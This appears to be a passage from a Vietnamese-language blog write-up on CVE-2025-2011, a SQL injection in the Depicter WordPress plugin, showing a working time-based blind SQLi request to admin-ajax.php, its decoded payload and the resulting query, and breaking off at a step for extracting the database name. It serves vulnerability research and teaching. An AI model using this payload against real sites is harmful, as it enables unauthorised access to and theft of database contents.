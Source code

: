 ## Exploit 
### Detect SQLi

Gửi **GET request** chứa payload SQLi.

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Payload được decode:

```sql
999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- -
```

Khi đó một phần của câu query trở thành 

```sql
AND (lf.value like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- ' OR leadtable.content_name like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) #')
```

![response time](assets/img/posts/2025-09-11-CVE-2025-2011/resp_time.png)

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính. 

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:
